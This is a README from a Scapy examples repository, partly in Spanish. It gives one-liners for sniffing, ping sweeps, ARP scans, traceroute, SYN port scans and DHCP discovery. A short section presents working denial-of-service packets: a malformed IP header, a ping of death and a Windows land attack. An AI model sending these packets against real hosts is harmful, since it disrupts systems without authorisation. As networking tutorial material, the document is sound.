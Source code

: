 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs
examples - more examples
tutorial - examples for official Scapy usage 


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## WiFi Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html

## One line examples

Sniffing:
 
Snifear en interfaz eth0:
	
	```python
			sniff(iface="eth0",prn=lambda x: x.summary())
			sniff(iface="eth0",prn=lambda x: x.show())
	```
	
filtrando y con formato. Solo ips.
	```python
			pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
	```
	
identificando puertos
	```python
		a=sniff(filter="tcp and ( port 25 or port 110 )",prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
	```
 
Ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```
	//con icmp bloqueado
	```python
	ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
    ```
    
	//Udp Ping
	```python
	ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
    ```
Arping:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

	//normal
	```python
	arping("192.168.1.1")
    ```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

tarceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Graficar tracert:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	//graficar
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

scanner de puertos:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	//visualizando.
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
	```python
		send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
	```
	
	Ping of death:
	```python
		send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
	```
	Land attack (windows):
	```python
		send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
	```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```